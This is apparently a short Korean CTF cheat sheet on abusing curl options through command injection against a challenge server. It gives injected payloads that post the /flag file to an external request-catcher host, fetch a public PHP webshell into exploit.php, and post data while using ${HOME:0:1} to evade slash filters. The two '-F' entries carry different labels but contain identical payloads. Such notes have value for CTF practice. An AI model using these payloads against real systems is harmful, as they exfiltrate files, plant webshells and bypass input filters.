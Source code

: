 

# `-F`옵션
- 파일 내용 유출
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```

- 파일 자체 확인
```
http://34.146.180.210:3000/chall?url[raw]=$(curl%20https://kcvztrl.request.dreamhack.games%20-F=@/flag)
```

# `-o`옵션
- 파일 작성
```
curl <https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php> -o ./exploit.php
```


# `-X` 옵션
- post
```
curl -X POST --data-urlencode "data=$(echo 3)" https:${HOME:0:1}${HOME:0:1}asdf.requestcatcher.com${HOME:0:1}test
```

